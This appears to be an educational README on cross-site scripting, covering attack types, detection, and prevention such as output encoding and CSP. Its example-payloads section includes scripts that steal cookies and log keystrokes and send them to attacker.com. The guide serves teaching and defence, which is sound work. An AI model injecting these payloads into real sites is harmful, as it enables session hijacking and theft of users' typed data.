

# 🌐 Cross-Site Scripting (XSS)

## 📖 Description
Cross-Site Scripting (XSS) is a client-side code injection attack where attackers inject malicious scripts into trusted websites. When users visit the compromised page, the script executes in their browser, potentially stealing cookies, session tokens, or performing actions on their behalf.

## 🎯 Attack Types

### 1. Reflected XSS (Non-Persistent)
- Malicious script is part of the request (URL)
- Server reflects the script in response
- Requires user interaction (clicking link)

### 2. Stored XSS (Persistent)
- Malicious script is stored on the server
- Affects all users viewing the compromised page
- Most dangerous type of XSS

### 3. DOM-based XSS
- Vulnerability in client-side JavaScript
- Server never receives the malicious payload
- Uses document.location, document.URL, etc.

## 🔍 Detection Methods

### Manual Detection
1. **Input Testing**: Insert script tags, HTML events
2. **Context Analysis**: Check where input appears
3. **DOM Inspection**: Review JavaScript code
4. **Alert Boxes**: Test with alert(1) payloads

### Automated Detection
- [XSS Detector](./detection/xss_detector.py) - Automated XSS scanning
- [CSP Analyzer](./detection/csp_analyzer.py) - Content Security Policy analysis

## 🛡️ Prevention Strategies

### Primary Defenses
1. **Output Encoding** (Context-aware)
2. **Content Security Policy (CSP)**
3. **Input Validation** (Whitelist approach)
4. **HTTPOnly Cookies** (Prevent cookie theft)

### Prevention Examples
- [Output Encoding](./prevention/output_encoding.py) - Context-aware encoding
- [CSP Headers](./prevention/csp_headers.py) - Content Security Policy implementation

## 📊 Attack Flow



## 💡 Best Practices

### For Developers
```javascript
// GOOD - Use textContent instead of innerHTML
element.textContent = userInput;

// BAD - Vulnerable to XSS
element.innerHTML = userInput;
```

### Content Security Policy
```http
Content-Security-Policy: default-src 'self'; 
                        script-src 'self' https://trusted.cdn.com;
                        style-src 'self';
                        img-src 'self' data:;
```

## 📝 Example Payloads
### Basic XSS
```html
<script>alert('XSS')</script>

<svg onload=alert(1)>
<body onload=alert(1)>
```

### Cookie Stealing
```html
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
```

### Keylogging
```html
<script>
document.addEventListener('keypress', function(e) {
    fetch('https://attacker.com/log?key='+e.key);
});
</script>
```
## ⚠️ Warning

Only test Cross-Site Scripting (XSS) vulnerabilities on applications you own or have **explicit permission** to test.

Unauthorized testing is illegal and unethical.

---

## 📚 References

- [OWASP Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)  
- [PortSwigger XSS Guide](https://portswigger.net/web-security/cross-site-scripting)  
- [Content Security Policy (CSP) Reference](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

